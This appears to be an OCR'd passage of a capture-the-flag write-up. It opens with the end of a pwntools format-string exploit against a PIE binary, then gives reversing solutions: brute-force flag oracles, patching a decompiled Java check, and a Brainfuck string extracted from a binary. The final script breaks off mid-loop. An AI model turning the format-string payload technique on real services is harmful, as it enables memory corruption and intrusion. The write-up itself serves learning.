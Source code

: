 ```lus=py
pie = int(pie.decode('utf-8'),16)
print(f"pie: {hex(pie)}")
pay = b'%d'*5+b'%ld'*3+b"0x%sx"+p64(pie+off)
pay = pay.ljust(39, b'a')
r.sendline(pay)
r.interactive()
```


## rev

### 🍍TsaiBro
```lua=py
s = open('TsaiBroSaid').read()
s = s.split('發財')[1:]

import string
from pwn import *

flag = ''
for i in range(1, 100):
    for c in string.printable:
        r = process(['./TsaiBro', flag+c])
        out = r.recv()
        if out.decode('utf-8').split('發財')[1:] == s[:i*2]:
            flag += c
            print(flag)
            break
        r.close()
```

### 🎹Fallen Beat
decompile useing [online decompiler](http://www.javadecompilers.com)

write `Main-Class: Control.Main` to `META-INF/MANIFEST.MF`
use:
```
javac */*.java;
jar cmvf META-INF/MANIFEST.MF pp.jar */*.class;
java -jar pp.jar
```
to compile and run

chang the 175 line of Visual/PanelEnding.java to if(true) to get flag.

### 🧠 Stand up!Brain

find:
```-------------------------------------------------------------------[>[-]<[-]]>[>--------------------------------------------------------[>[-]<[-]]>[>-------------------------------------------------------[>[-]<[-]]>[>------------------------------------------------------[>[-]<[-]]>[>---------------------------------------------------[>[-]<[-]]>[>---------------------------------[>[-]<[-]]>[>>----[---->+<]>++.++++++++.++++++++++.>-[----->+<]>.+[--->++<]>+++.>-[--->+<]>-.[---->+++++<]>-.[-->+<]>---.[--->++<]>---.++[->+++<]>.+[-->+<]>+.[--->++<]>---.++[->+++<]>.+++.[--->+<]>----.[-->+<]>-----.[->++<]>+.-[---->+++<]>.--------.>-[--->+<]>.-[----->+<]>-.++++++++.--[----->+++<]>.+++.[--->+<]>-.-[-->+<]>---.++[--->+++++<]>.++++++++++++++.+++[->+++++<]>.[----->+<]>++.>-[----->+<]>.---[->++<]>-.++++++.[--->+<]>+++.+++.[-]]]]]]]```
in the binary
The joke is `C8763!`, get the flag

### 🍹Long Island Iced Tea

```lus=py
from pwn import *
import string
s = string.printable
for i in 'g'+s:
    for j in s:
        for k in s:

            t = f'AIS3\x7b{j+k+i}irl_g1v3_m3_Ur_IG_4nd_th1s_1s_m1ne_terryterry__\x7d'
            r = process('./Long')
            r.recvuntil('drunk\n')
```